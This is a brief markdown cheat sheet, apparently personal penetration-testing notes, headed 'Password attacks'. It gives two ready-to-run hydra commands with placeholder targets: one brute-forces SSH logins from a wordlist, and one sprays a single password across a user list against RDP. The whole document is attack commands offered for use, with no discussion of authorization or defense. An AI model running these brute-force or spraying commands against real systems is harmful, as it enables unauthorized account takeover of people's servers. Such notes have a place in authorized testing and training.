 # Password attacks

## Wordlist

```
hydra -l user -P wordlist.txt -s PortVictim ssh://IpVictim
```

## Spraying

```
hydra -L userlist.txt -p "hackedpassword" rdp://IpVictim
```


